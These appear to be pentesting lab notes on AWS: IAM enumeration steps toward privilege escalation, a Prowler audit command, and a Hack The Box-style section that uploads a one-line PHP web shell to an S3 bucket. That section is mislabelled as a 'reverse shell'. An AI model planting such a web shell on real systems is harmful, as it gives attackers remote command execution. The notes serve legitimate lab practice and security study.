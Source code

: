 A possible privIlege escalation could be done following this steps
- List all users (IAM)
- List IAM policies for a user (IAM)
- Get information about a specific policy (IAM)
- Get more information about a specific policy (IAM)
- List all IAM roles (IAM)
- Get information about a specific role (IAM)

# prowler <a name="p"></a>

**Prowler** is an Open Source security tool to perform AWS, GCP and Azure security best practices assessments, audits, incident response, continuous monitoring, hardening and forensics readiness.

It contains hundreds of controls covering CIS, NIST 800, NIST CSF, CISA, RBI, FedRAMP, PCI-DSS, GDPR, HIPAA, FFIEC, SOC2, GXP, AWS Well-Architected Framework Security Pillar, AWS Foundational Technical Review (FTR), ENS (Spanish National Security Scheme) and your custom security frameworks.

- Use a custom AWS profile with `-p`/`--profile` and/or AWS regions which you want to audit with `-f`/`--filter-region`:

```bash
prowler aws --profile custom-profile -f us-east-1 eu-south-2
```

# aws reverse shell <a name="awsrs"></a>

The `aws reverse shell` command is used to copy files from your local machine to one of the AWS buckets. After copying the file, you can access it and enter commands.

- `endpoint`: URL where S3 is located (replace with `s3` or another subdomain if found).
- `s3`: Interacts with the S3 service (replace with the discovered subdomain from gobuster subdomain search).
- `cp`: Copies the specified file, in this case, `shell.php`, to the bucket.
- `shell.php`: The file to be copied, containing `<?php system($_GET["cmd"]); ?>` code.
- `s3://{bucket name}`: Name of the bucket to interact with.

````bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
````